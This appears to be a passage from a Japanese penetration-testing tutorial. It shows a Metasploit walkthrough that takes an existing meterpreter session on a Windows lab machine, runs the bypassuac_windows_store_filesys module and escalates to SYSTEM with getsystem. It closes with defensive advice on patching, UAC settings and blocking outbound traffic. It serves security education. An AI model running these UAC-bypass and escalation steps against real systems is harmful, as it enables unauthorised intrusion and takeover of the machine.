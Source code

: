 ### 既存のセッションを使う例

```shell
# 既に１つセッションが確立されている状態
msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                          Connection
  --  ----  ----                     -----------                          ----------
  5         meterpreter x86/windows  DESKTOP-PA\buc @ DESKTOP-PA  192.168.11.9:4444 -> 192.168.11.4:56161 (192.168.11.4)

# 既存セッションを指定するタイプのエクスプロイト
search bypassuac
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac_windows_store_filesys
msf6 exploit(windows/local/bypassuac_windows_store_filesys) > show options

Module options (exploit/windows/local/bypassuac_windows_store_filesys):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on

msf6 exploit(windows/local/bypassuac_windows_store_filesys) > set SESSION 5
exploit

# システムユーザーに昇格
meterpreter> getsystem
```

## セキュリティ視点

- 最重要はセキュリティパッチ適用。古いシステムの放置は極めて危険。
- Windows で認証バイパスを防止するには、「ユーザーアカウント制御の設定」で「常に通知」に設定するのが効果的
- ちょっとエンコードした程度では、主要ウイルス対策ソフトのチェックを回避できるものではない
- アウトバウンド通信の禁止は、ペイロード配置を難しくする。最小限の原則で。
